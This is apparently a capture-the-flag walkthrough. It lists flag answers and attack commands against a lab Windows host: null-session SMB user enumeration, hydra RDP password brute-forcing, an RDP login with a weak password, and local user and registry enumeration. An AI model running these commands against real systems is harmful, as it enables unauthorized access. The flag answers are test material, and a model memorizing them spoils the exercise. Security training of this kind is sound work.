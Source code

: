 
## FLAG 1: User Full Name (10 points - Easy)
**Location:** User Full Name  
**Flag:** FLAG{MEW23686701}

### Attack Method: Local User Enumeration
```bash
# Enumerate users via SMB
enum4linux -U $TARGET_WS

# Using rpcclient
rpcclient -U "" -N $TARGET_WS
rpcclient $> enumdomusers
rpcclient $> queryuser jsmith

# Alternative with CrackMapExec
crackmapexec smb $TARGET_WS -u '' -p '' --users
```

**Screenshot Simulation:**
```
[+] Getting user info for jsmith
    User Name:    jsmith
    Full Name:    John Smith - FLAG{MEW23686701}
    Home Drive:   
    Profile Path:
```

**Why:** User full names often contain personal information or, in CTFs, hidden flags. This tests basic enumeration skills.

---

## FLAG 2: Hidden User (20 points - Medium)
**Location:** Hidden User  
**Flag:** FLAG{RAICHU62619281}

### Attack Method: Advanced User Discovery

First, gain initial access using weak credentials:
```bash
# Test common credentials
hydra -L users.txt -P passwords.txt rdp://$TARGET_WS

# RDP with discovered credentials
xfreerdp /u:jsmith /p:Welcome1 /v:$TARGET_WS
```

On the system:
```powershell
# List ALL users including hidden ones
Get-LocalUser | Select-Object Name, Enabled, Description

# Check for users with $ in name (hidden)
net user

# Registry enumeration for users
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList"
```
